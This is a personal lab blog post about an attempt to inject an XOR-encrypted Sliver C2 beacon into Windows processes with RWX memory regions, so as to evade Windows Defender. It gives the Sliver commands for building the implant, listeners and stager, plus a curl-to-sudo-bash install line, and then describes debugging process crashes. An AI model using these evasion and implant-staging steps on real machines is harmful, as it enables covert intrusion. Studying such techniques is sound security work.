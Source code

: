 +++
title = 'Injecting Shellcode Via RWX Protected Memory Regions'
date = 2025-07-10
draft = false
+++


## 1. PREFACE
---

So I've been doing some couples of malware academy modules and reverse engineering malwares, but i've never tried to officially bypass windows defender and inject a shellcode. So, I’ve been trying a simple defense evasion technique for windows defender by enumerating processes with a RWX Protected memory region to inject my sliver beacon combined with XOR encryption. One point to note is that, even though it bypasses windows defender antivirus, that doesn't mean that it does not leave other IOC's and to apply this in a real world scenario would require additional stealth features. In this blog, I'll talk about my "successes..." and challenges.


⚠️ `Be ready to be disappointed...`


## 2. SETUP
---

#### SETTING UP SLIVER C2 ON KALI

1. Generating beacon profile implant : `profiles new beacon --mtls 192.168.38.128 --os windows --arch amd64 --format shellcode --seconds 5 --jitter 3 win_implant`

>⚠️`--skip-symbols` disables obfuscation

2. Starting the mtls listener : `mtls`
3. Starting the stage listener : `stage-listener --url tcp://192.168.38.128:8443 --profile win_implant`
4. See you listener : `jobs`
5. Generate the stager : `generate stager --lhost 192.168.38.128 --lport 8443 --arch amd64 --format c --save /tmp`

>[!warning]
>You might encounter issues while trying to generate your stager, if you've installed sliver with this : `curl https://sliver.sh/install|sudo bash`. You might need to install it from the release binaries

#### SETTING UP TARGET WINDOWS MACHINE

1. Install Windows on a VM
2. Make sure windows defender is up to date and activated


## 3. Development
---

1. Enumerating the processes
2. If we're able to open the process, we'll have query inside it's memory to find a memory section with RWX
3. Once we find it we will decrypt and inject the shellcode inside that memory region and then start a thread starting from that section
4. We should get a reverse shell connection back to our `Slvier C2` if everything went well (sadly we don't😢)

You can find my source code on my [Github](https://github.com/8erg/ByPassWindefender)


## Problems encountered
---

- My payload kept getting injected into `SearchApp.exe` which is only used when performing searches and by looking at the process inside `System Informer` formerly known as `Process Hacker`, I could see that the process is almost always in a suspended state, unless i perform searches on the host, so i thought that was the problem

{{< image src="/images/Pasted image 20250705004129.png" alt="20250705004129" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So I tried to perform a search, so that the process would resume, but as soon as it resumed it crashed...

- I also could see that even though my shellcode was written inside the memory, it was not fully written, but only portion

{{< image src="/images/Pasted image 20250708172711.png" alt="20250708172711" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So i went in x64dbg, to in x32dbg to inspect it a little bit further (the beauty of learning reverse engineering, I still suck btw)
    1. Set a breakpoint on `WriteProcessMemory`, so the first process that has `RWX` 
    2. Go on the memory section and identify the third argument and follow in dump, execute till return and see a change happening in the dump
    3. Follow the pointer that was written in the next dump tab and you will see the shellcode

{{< image src="/images/Pasted image 20250708211454.png" alt="20250708211454" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211552.png" alt="20250708211552" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211707.png" alt="20250708211707" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- I could clearly see that my shellcode was passed fully to the `WriteProcessMemory`, but anyway by changing my code a little bit and how I was passing my shellcode the function, I was able to fix it


{{< image src="/images/poc8.png" alt="poc8" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- This did not fix the real problem, so I thought maybe I should inject in another process, maybe that would give a different result, so this is what I did, but as soon as the shellcode got injected and I created a thread to start at that newly written memory region, the program crashed...what is going on? this is not good, even though this is a lab, I was thinking in a real world scenario if you see some of your app crash, after running a program, this will immediately trigger a red alert, even though windows defender doesn't detect anything

- Maybe pausing the process, inject the shellcode and then resume, would fix the problem but, no, I got the same result

- So, I tried a bunch of different things, but always ended up at the same result, but, at least the good news is that I was able to bypass windows defender, right? We have to stay positive in this field, count them small wins...

{{< image src="/images/Pasted image 20250624141138.png" alt="20250624141138" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}


### 3. Conclusion
---

To conclude, even though this gets undected by the windows defender antivirus, it still would get detected by an EDR and this angle is not stable enough. What i mean by that, is that since we're overwritting a section of memory that has the RWX Protected Memory Region, i can deduce that the app crashes because we might be overwritting a critical section of the process that is needed to make the process run smoothly. Also, if you see an app crash, this could potentially lead your malware to be discovered which is no good. This type of defense evasion is a good learning experience, but to apply this into a real world scenario would require additionnal tweaks or a different approach.